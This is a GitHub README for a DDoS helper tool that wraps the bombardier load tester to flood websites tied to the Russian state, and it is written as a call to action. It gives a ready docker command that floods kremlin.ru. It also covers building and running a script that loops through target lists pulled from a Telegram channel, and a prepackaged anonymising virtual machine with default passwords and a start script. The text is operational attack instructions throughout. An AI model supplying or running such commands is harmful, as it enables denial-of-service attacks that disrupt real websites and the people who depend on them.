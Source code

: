 # fuckputin

🇺🇦 A DDoS helper tool to bring down enemy websites - based on [bombardier](https://github.com/codesenberg/bombardier) 🇺🇦

### [Інструкція українською](./README_UA.md)
### [Инструкция на русском](./README_RU.md)

### Simplified instruction - manual execution
- Install Docker - [Instructions](https://docs.docker.com/get-docker/)
- `docker run -it alpine/bombardier -c 1000 -d 60s -l https://kremlin.ru`
- Last part of the comand is host url, you should pick one [from the last chat messages](https://t.me/itarmyofukraine2022)  

Automatic script performs the same command and loops through a list of hosts, so you can leave it unsupervised overnight or for long periods of time. It also automatically fetches updates to the list.

### Get the code
- Clone the repo - `git clone https://github.com/v1adko/fuckputin.git`   
  or  
[download a zip](https://github.com/v1adko/fuckputin/archive/refs/heads/master.zip) if git clone is taking too long
- Change working directory - `cd ./fuckputin`
- Optionally update [the targets](#targets)

### Targets

Best update targets from [this telegram channel](https://t.me/itarmyofukraine2022)  
Edit contents of the [./fucklist.sh](/fucklist.sh) file

### Run in Docker

*Note*: this could take quite some time, if you're tech-savvy enough,  
try [installing binaries manually](#local) directly on your host system,  
it should be faster

- Install Docker - [Instructions](https://docs.docker.com/get-docker/)
- Optionally update [the targets](#targets)
- `docker-compose up --build` (on some systems compose is not installed with docker)
   **or**
- `docker build -t fuckputin .`
- `docker run fuckputin`

### Local

- Install Go - [Instructions](https://go.dev/doc/install)
- Install bombardier [by downloading a binary](https://github.com/codesenberg/bombardier/releases)
- Run `./fuckputin-local.sh`

### Run

### VirtualBox OVA based on Parrot Security Linux (fuckputler) with LUKS Encription & AnonSurf per default after start.

- Just Dowload VirtualBox for your System (Linux, Mac, Windows) here: https://www.virtualbox.org/
- Install VirtualBox in your System
- Download OVA of putlerkaput Linux here: https://mega.nz/file/TlsmHKQS#QLvyKQyFcdqXtH09vYKLa4054xVp7D6U7iDfjGfeKHk
- Just double click on OVA File or import it to your VirtualBox
- Maybe you have to set EFI BIOS Setting and uncheck VT (Virt. Tech for CPU)
- Try to start the system - 1st LUKS password is putlerkaput2022! (can be changed)
- If started, userpassword is the same putlerkaput2022! (can be changed)
- As next one you have to provide your WiFi Passowrd or connect your LAN Cabel, we need internet connection :)
- Then check your IP (Check my IP Icon on desktop / or in Browser iplocation.org), if it not yours - open folder "fuckputin" on desktop and doubleclick on start-fucking.sh (this README you can find also on the desktop);
- Enjoy! :) And plz keep this a life so long you can! 

### LiveUSB Version based on ventoy of putlerkaput dist comming soon ... 

Now leave the process running for as much as you can
Thank you for fighting on our side! 💪 🇺🇦
